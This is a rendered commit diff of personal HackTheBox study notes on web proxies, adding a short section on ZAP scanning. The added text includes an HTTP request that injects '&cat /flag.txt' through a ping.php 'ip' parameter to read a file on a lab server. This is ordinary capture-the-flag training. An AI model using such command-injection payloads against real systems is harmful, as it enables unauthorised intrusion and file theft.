

Before and after one commit to atutko2/HackTheBox, a Markdown page: Modules/UsingWebProxies/UsingWebProxies.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Zap Scanner

```diff
--- a/Modules/UsingWebProxies/UsingWebProxies.md
+++ b/Modules/UsingWebProxies/UsingWebProxies.md
@@ -73,8 +73,27 @@ When we rerun that request and check the response, we find `HTB{fuzz1n6_my_f1r57
 
 ## Burp Scanner
 
+This section covers Burp Scanner which is a pro only tool. So I could not follow along, but this tool helps to identify vulnerabilities in web Apps.
+
 ## ZAP Scanner
 
+This section covers the Zap web Scanner.
+
+It starts by covering Zap Spider, which is a web crawler. This will provide a site map of the site and perform a passive scan of all pages found.
+
+Then we can do an active scan of this site. Once we scan it, which takes a long time, it finds a few high alerts including a remote code execution vulnerability. The task on this test is to read /flag.txt.
+
+So to do this we run:
+`GET http://94.237.55.163:40627/devtools/ping.php?ip=127.0.0.1%26cat+%2Fflag.txt HTTP/1.1
+host: 94.237.55.163:40627
+user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0
+pragma: no-cache
+cache-control: no-cache
+referer: http://94.237.55.163:40627/index.php/2021/08/11/customer-support/
+content-length: 0
+`
+
+And the response shows `HTB{5c4nn3r5_f1nd_vuln5_w3_m155}`
 ## Extensions
 
 # Skills Assessment
```
